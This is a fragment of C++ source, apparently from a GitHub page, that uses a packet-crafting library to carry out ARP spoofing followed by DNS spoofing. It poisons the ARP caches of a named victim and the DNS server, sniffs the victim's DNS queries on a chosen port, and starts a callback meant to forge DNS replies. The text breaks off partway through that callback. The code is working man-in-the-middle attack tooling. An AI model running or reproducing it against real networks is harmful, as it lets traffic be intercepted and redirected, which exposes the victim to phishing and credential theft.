 ```
	/* Start the ARP spoofing */
	ARPContext* context = ARPSpoofingRequest(dns_ip,victim_ip,iface);

	/* Print data about the spoofing, and wait a few seconds */
	PrintARPContext(*context);
	sleep(3);

	/* Create a sniffer	*/
	sniff = new Sniffer("udp and host " + victim_ip + " and port " + StrPort(dst_port),iface,DNSSpoofer);

	/* Now, spawn the capture */
	void* sniffer_arg = static_cast<void*>(host_info);
	sniff->Spawn(-1, sniffer_arg);

	cout << "[@] Spawning the sniffer, redirecting the traffic... " << endl;

	/* Set a signal catcher */
	signal (SIGINT, ctrl_c);

	/* And wait for the sniffer to finish (when CONTROL-C is pressed) */
	sniff->Join();

	/* Delete the IP tables rules */
	iptables_flush(iface,victim_ip,dst_port);

	/* Delete allocated data */
	delete host_info;

	/* Clean up ARP context */
	CleanARPContext(context);

	/* Clean up library stuff... */
	CleanCrafter();

	return 0;
}

void DNSSpoofer(Packet* sniff_packet, void* user) {
	/* Cast the MAC addresses structure */
	HostInfo* host_data = static_cast<HostInfo*>(user);

	/* Get the Ethernet Layer */
	Ethernet* ether_layer = GetEthernet(*sniff_packet);

	/* Get the IP layer */
	IP* ip_layer = GetIP(*sniff_packet);

	/* Get the UDP layer */
	UDP* udp_layer = GetUDP(*sniff_packet);

	/* Flag to set when we should spoof a DNS answer */
	byte spoof = 0;

	/* Checks if the source MAC is not mine */
	if(ether_layer->GetSourceMAC() != host_data->my_mac) {

		/* Checks if the packet is coming from the victim... */
		if(ip_layer->GetSourceIP() == host_data->victim_ip) {

			/* Get the RawLayer */
			RawLayer* raw_layer = GetRawLayer(*sniff_packet);

```
